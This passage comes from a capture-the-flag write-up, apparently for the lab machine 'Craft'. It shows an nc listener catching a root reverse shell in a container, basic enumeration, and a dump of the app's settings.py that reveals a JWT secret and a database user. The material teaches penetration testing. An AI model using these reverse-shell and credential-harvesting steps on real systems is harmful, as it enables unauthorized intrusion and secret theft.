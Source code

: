 ```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.110.
Ncat: Connection from 10.10.10.110:37785.
/bin/sh: can't access tty; job control turned off
/opt/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

```

Looks like it’s a container:

```

/opt/app # hostname
5a3d243127f5
/opt/app # ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
15: eth0@if16: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:14:00:06 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.6/16 brd 172.20.255.255 scope global eth0
       valid_lft forever preferred_lft forever

```

## Shell as gilfoyle@craft

### Local Enumeration

It’s quickly obvious there’s almost nothing on this box. `/opt/app` holds the API code from gogs:

```

/opt/app # ls
app.py     craft_api  dbtest.py  tests

```

`settings.py` is there, which gives me creds to the database, as well as the API key for signing JWTs:

```

/opt/app/craft_api # ls
__init__.py  __pycache__  api          database     settings.py
/opt/app/craft_api # cat settings.py 
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
```